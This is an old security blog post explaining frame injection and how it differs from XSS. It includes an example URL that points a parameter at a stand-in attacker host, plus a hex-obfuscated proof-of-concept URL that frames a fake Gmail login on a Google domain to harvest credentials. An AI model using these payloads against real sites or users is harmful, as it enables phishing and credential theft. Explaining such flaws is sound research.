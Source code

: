 ```yaml
---
title: Frame Injection Fun
author: pagvac
date: Fri, 10 Oct 2008 00:01:28 GMT
template: post.pug
category: fucked
---
```


Frame injection vulnerabilities, although some people might consider them the same as HTML injection/XSS or even a subset, they really are not the same. Here is why:

* There is no need to inject special control characters such as angle brackets (unlike HTMLi/XSS)
* HTMLi/XSS filtering routines will not project against frame injection since the attacker only needs to insert a URL in the non-sanitized parameter

The best way to explain what I mean is to show an example. Most frame injection issues occur in web applications because dynamic [frameset/iframe](http://www.w3.org/TR/html4/present/frames.html) insertion is not implemented with enough filtering. For instance, say that we have the following URL on the target site:

    https://www.victim.foo/index.php?**targeturl**=/contact.php

    A malicious user with intentions of launching a phishing attack will try tampering the `targeturl` parameter. His goal is to insert a third-party page that is under his control, rather than the original contact page. Indeed, `index.php`, although is not allowing HTML or JavaScript to be assigned to `targeturl`, is happy to process an absolute URL rather than a relative one:

    https://www.victim.foo/index.php?**targeturl**=http://evil.foo/login.php

    I thought that showing a live example would help our readers get an idea of what frame injection looks in action. For that purpose, I prepared a rather not elegant proof of concept which takes advantage of the Google Images service. What's neat is that although the legitimate URL would normally use the `images.google.com` domain, Google also allow us to use other google.com subdomains such as `mail.google.com` which is used by Gmail. This is ideal, as we're trying to accomplish a frame injection attack which can be used to perform phishing attacks against Gmail users.

    http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&**imgrefurl**=http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&imgrefurl=%68%74%74%70%3a%2f%2f%73%6e%69%70%75%72%6c%2e%63%6f%6d%2f%67%6e%77%62%6f

<div class="screen">![Frame Injection Fun POC](/files/2008/10/frame-injection-fun-poc-300x210.png "Frame Injection Fun POC")</div>

The previous PoC URL will cause the entered credentials to be submitted to www.gnucitizen.org when clicking on Sign in, so please do NOT submit any real credentials!

> pIn short:p The attacker has managed to display a non-legitimate third-party page, while the legitimate domain (mail.google.com in this case) is shown in the address bar.The beauty of frame injection attacks is that the attacker is able to impersonate a trusted entity without needing to bypass XSS/HTMLi filters or even break into the target server.

_Needless to say, in real-life the attacker would most likely automate the process of obtaining the harvested credentials by using a tool such as our [x.php](http://lab.gnucitizen.org/projects/x-php-data-theft-script) data-theft script._

